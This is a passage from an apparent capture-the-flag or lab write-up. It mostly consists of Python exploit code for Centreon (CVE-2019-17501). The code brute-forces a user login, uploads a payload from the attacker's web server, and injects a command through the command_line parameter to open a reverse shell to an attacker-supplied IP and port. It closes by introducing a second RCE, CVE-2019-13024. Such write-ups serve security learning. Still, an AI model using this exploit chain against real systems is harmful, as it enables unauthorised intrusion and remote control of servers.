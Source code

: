 ```py
def reverseShell(rhost):
    print("[+] Now Let's Get The Reverse Shell!!!! [+]")
    payload = "bash /tmp/payload.sh"
    urllib.parse.quote(payload, safe='')
    url = "http://%s:80/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=%s&o=p&min=1" %(rhost,payload)
    headers = {"Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=True)
    parser.add_argument('-ip', '--ip', help='IP to receive the reverse shell', required=True)
    parser.add_argument('-p', '--port', help='Port to receive the reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    lhost = args.ip
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web server
    webServer()
    # Let's bruteforce the user
    loginRequest(rhost,wordlist,username)
    # Let's mount the payload
    mountPayload(lhost,lport)
    # Let's download it to the server
    uploadMalicious(rhost,lhost)
    # Let's trigger it
    reverseShell(rhost)
    

if __name__ == '__main__':
    main()
```

That was the way from CVE-2019-17501 we got a reverse shell. Now let's change our approach to get another reverse shell on this box exploring other CVE.

# RCE - CVE-2019-13024
